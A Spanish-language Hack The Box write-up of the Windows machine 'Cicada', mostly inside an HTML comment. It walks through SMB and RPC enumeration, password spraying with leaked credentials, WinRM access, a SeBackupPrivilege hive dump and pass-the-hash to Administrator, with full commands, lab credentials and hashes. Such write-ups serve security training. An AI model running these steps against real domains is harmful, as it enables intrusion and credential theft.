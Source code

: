 ```yaml
---
description: >-
  Writeup de la máquina de dificultad fácil Cicada de la página https://hackthebox.eu
title: HTB - Cicada | (Difficulty Easy) - Windows
date: 2025-02-10
categories: [Writeup, Hack the Box]
tags: [htb, hacking, hack the box, active directory, medium, writeup, redteam, pentesting]
image_post: true
image: https://github.com/user-attachments/assets/700eee3e-468d-4b78-9b59-198f84bd6e4c
---
```


## Useful Skills

* DNS Enumeration (dig)
* RCP Enumeration (rpcclient)
* SMB Enumeration (netexec)
* Information lekeage
* Abusing SeBackupPrivilege (impacket-secretsdump)
* Pass The Hash (evil-winrm)

## Enumeration

### TCP Scan

 ```bash
rustscan -a 10.10.11.35 --ulimit 5000 -g
10.10.11.35 -> [53,88,135,139,389,445,464,593,636,3268,3269,5985,60084
```

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,60084 -sCV 10.10.11.35 -oN tcpScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-10 15:06 CET
Nmap scan report for 10.10.11.35
Host is up (0.035s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-10 21:06:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
60084/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-10T21:07:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m54s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.15 seconds
```

### UDP Scan

 ```bash
nmap -sU --top-ports 1500 --min-rate 5000 -n -Pn 10.10.11.35 -oN udpScan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-10 15:09 CET
Nmap scan report for 10.10.11.35
Host is up (0.039s latency).
Not shown: 1497 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 0.98 seconds
```

> Esta máquina sigue activa en HackTheBox. Una vez que se retire, este artículo se publicará para acceso público, de acuerdo con la política de HackTheBox sobre la publicación de contenido de su plataforma.
{: .prompt-danger }

<!--
> Hay que añadir el dominio cicada.htb0 y el FQDN CICADA-DC.cicada.htb en el archivo de configuración /etc/hosts para que se pueda resolver el nombre de dominio a la dirección IP 10.10.11.35
{: .prompt-tip }

### DNS Enumeration

Intento obtener información adicional sobre el dominio a través de consultas DNS con dig, donde intento obtener los registros NS, MX, CNAME entre otros, posteriormente, trato de realizar una transferencia de zona, pero esta resulta fallida.

```bash
dig cicada.htb0@10.10.11.35 axfr
;; communications error to 192.168.2.2#53: connection reset

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> cicada.htb0@10.10.11.35 axfr
;; global options: +cmd
; Transfer failed.
```

### SMB Enumeration

Utilizo NetExec para realizar un escaneo de SMB y obtener información clave como el sistema operativo, nombre del servidor, dominio, si la firma smb está habilita y si la versión antigua SMBv1 está activada o desactivada.

```bash
nxc smb 10.10.11.35
SMB  10.10.11.35  445  CICADA-DC  [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
```

Utilizo NetExec para enumerar los recursos compartidos del sistema a través del protocolo SMB, con autenticación nula, tengo permisos de lectura sobre un directorio llamado HR

```bash
nxc smb 10.10.11.35 -u ' ' -p '' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\ : 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share
```

Accedo con smbclient al directorio compartido haciendo uso de una sesión nula, observo un archivo llamado Notice from HR.txt, el cual descargo a mi máquina local

```bash
smbclient //10.10.11.35/HR -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

4168447 blocks of size 4096. 434781 blocks availa
```

```bash
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (8,9 KiloBytes/sec) (average 8,9 KiloBytes/sec)
```

Visualizo el fichero y obtengo una contraseña, la cual es "Cicada$M6Corpb*@Lp#nZp!8", pero no dispongo de usuarios válidos en el sistema

```bash
cat "Notice from HR.txt"

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Utilizo netexec para enumerar usuario del sistema a través de fuerza bruta en el RID

```bash
nxc smb 10.10.11.35 -u ' ' -p '' --rid-brute | grep 'SidTypeUser' | cut -d \\ -f 2 | sed 's/(SidTypeUser)//'
Administrator 
Guest 
krbtgt 
CICADA-DC$ 
john.smoulder 
sarah.dantelia 
michael.wrightson 
david.orelious 
emily.oscars 
```

Con los usuario obtenidos utilizo netexec para validar si la contraseña es válida para alguno, obtengo que la contraseña es válida para el usuario michael.wrightson, para autenticarse en smb

```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILU
```

Utilizo netexec para enumerar si con el usuario michael.wrightson soy capaz de acceder a nuevos directorios compartidos en smb, pero no obtengo nada interesante

```bash
nxc smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```

### RPC Enumeration

Utilizo el usuario michael.wrightson y la contraseña "Cicada$M6Corpb*@Lp#nZp!8" para enumerar información de todo los usuarios a través de RPC, consigo obtener la contraseña del usuario david.orelious

```bash
rpcclient 10.10.11.35 --user=cicada.htb0/michael.wrightson%'Cicada$M6Corpb*@Lp#nZp!8' -c querydispinfo
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0xfeb RID: 0x454 acb: 0x00000210 Account: david.orelious	Name: (null)	Desc: Just in case I forget my password is aRt$Lp#7t*VQ!3
index: 0x101d RID: 0x641 acb: 0x00000210 Account: emily.oscars	Name: Emily Oscars	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000214 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xfe7 RID: 0x450 acb: 0x00000210 Account: john.smoulder	Name: (null)	Desc: (null)
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0xfe9 RID: 0x452 acb: 0x00000210 Account: michael.wrightson	Name: (null)	Desc: (null)
index: 0xfe8 RID: 0x451 acb: 0x00000210 Account: sarah.dantelia	Name: (null)	Desc: (null)
```

### SMB Enumeration

Utilizo el usuario david.orelious para ver si soy capaz de acceder a nuevos directorios compartidos en smb, soy capaz de leer un directorio compartido nuevo el cual es DEV

```bash
netexec smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```

Accedo con smbclient al directorio compartido haciendo uso del usuario david.orelious, observo un archivo llamado Backup_script.ps1, el cual descargo a mi máquina local

```bash
smbclient //10.10.11.35/DEV -U cicada.htb0/david.orelious%'aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

		4168447 blocks of size 4096. 433722 blocks available
```

```bash
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (4,2 KiloBytes/sec) (average 4,2 KiloBytes/sec)
```

Visualizo el archivo Backup_script.ps1, donde consigo ver la contraseña del usuario emily.oscars

```bash
cat Backup_script.ps1

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

## Gain access

Verifico con NetExec si puedo acceder al sistema mediante el servicio WinRM con algunos de los usuarios obtenidos hasta ahora. Obtengo un (Pwned!) con el usuario emily.oscars lo que indica que las credenciales proporcionadas son válidas para autenticarse con WinRM

```bash
netexec winrm 10.10.11.35 -u users2.txt -p credentials.txt --continue-on-success
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\emily.oscars:aRt$Lp#7t*VQ!3
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\michael.wrightson:aRt$Lp#7t*VQ!3
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\david.orelious:Q!3@Lp#M6b*7t*Vt
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
WINRM       10.10.11.35     5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Q!3@Lp#M6b*7t*Vt
```

Accedo al sistema con evil-winrm como el usuario emily.oscars

```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

## Privilege escalation

Utilizo el comando whoami /priv para observar los privilegios que tengo en el sistema como el usuario emily.oscars, observo el privilegio SeBackupPrivilege, poseer este privilegio es un tanto peligroso, ya que permite a un usuario realizar copias de seguridad de archivos sin respetar los permisos de seguridad estándar del sistema de archivos, lo que significa que se puede acceder y copiar archivos incluso si normalmente no se tiene permisos de lectura sobre ellos.

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Abusar del privilegios es bastante sencillo, comienzo creando un directorio C:\temp

```bash
*Evil-WinRM* PS C:\> mkdir temp

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2/10/2025   2:29 PM                temp

*Evil-WinRM* PS C:\> cd temp
*Evil-WinRM* PS C:\temp>
```

Una vez creado el directorio temp extraeré los archivos SAM y SYSTEM del registro de Windows, los cuales contienen los hashes de contraseñas de las cuentas locales del sistema.

```bash
Evil-WinRM* PS C:\temp> reg save hklm\sam C:\temp\sam.hive
The operation completed successfully.```
```

```bash
*Evil-WinRM* PS C:\temp> reg save hklm\system C:\temp\system.hive
The operation completed successfully.
```

Descargo a mi equipo local con evil-winrm los archivos SAM y SYSTEM

```bash
*Evil-WinRM* PS C:\temp> download sam.hive
                                        
Info: Downloading C:\temp\sam.hive to sam.hive
                                        
Info: Download successful!
```

```bash
*Evil-WinRM* PS C:\temp> download system.hive

Info: Downloading C:\temp\system.hive to system.hive
                                        
Info: Download successful!
```

Utilizo impacket-secretsdump para obtener la hashes NTLM de los usuarios locales del sistema

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Por último, utilizo el hash NTLM del usuario Administrator para realizar un Pass The Hash (PtH) con evil-winrm y ganar acceso al sistema como usuario administrador

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
```
-->
